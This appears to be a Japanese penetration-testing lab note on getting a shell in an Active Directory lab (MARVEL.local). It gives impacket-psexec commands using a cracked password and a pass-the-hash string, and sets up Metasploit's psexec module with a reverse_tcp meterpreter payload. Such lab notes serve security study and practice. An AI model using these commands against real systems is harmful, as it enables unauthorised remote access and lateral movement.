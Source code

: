 
# シェルの取得
いくつかのハッシュをダンプ、クラックできたので、シェルを取得できる

## 実証
- impacket-psexec 
	- ハッシュやパスワードで、シェルを確立できる
	- あまり防御されない
	- これが定番
	- もし、impacket-psexecがうまくうごかない時は、以下を試す。使い方は一緒
		- **impacket-wmiexec**
		- **impacket-smbexec**

パスワードがクラックできた時
```sh
impacket-psexec MARVEL/fcastle:'Password1'@192.168.56.102
```

ハッシュを取得できた時
```sh
impacket-psexec administrator@192.168.56.103 -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
```
![](https://i.imgur.com/mbkE8l8.png)


- Metasploitの「Windows/smb/psexec」というモジュール
	- ハッシュやパスワードで、シェルを確立できる
	- しかし、防御される可能性も高い
```sh
msfconsole
use Windows/smb/psexec
```

しかし、このままだとデフォルトで、設定されているペイロードがx64に対応していないので、変更する必要がある
```sh
set payload windows/x64/meterpreter/reverse_tcp
```

そのほかの設定
```sh
msf6 exploit(windows/smb/psexec) > set rhosts 192.168.56.102
rhosts => 192.168.56.102
msf6 exploit(windows/smb/psexec) > set smbdomain MARVEL.local
smbdomain => MARVEL.local
msf6 exploit(windows/smb/psexec) > set smbuser fcastle
smbuser => fcastle
msf6 exploit(windows/smb/psexec) > set smbpass Password1
msf6 exploit(windows/smb/psexec) > set LHOST 192.168.56.104
LHOST => 192.168.56.104
```


シェルを取得しないと、DC侵害ができないわけではない
しかし、シェルを使うと機密ファイルの探索などできるから、あったらいいよねって感じ
